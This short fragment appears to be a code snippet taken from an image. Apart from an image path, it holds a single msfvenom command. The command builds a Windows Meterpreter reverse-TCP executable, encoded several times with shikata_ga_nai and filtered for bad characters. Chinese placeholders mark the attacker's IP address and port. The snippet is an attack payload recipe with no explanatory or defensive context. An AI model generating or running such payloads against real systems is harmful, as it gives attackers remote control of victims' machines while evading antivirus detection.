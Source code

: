 
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST= 攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o  payload.exe
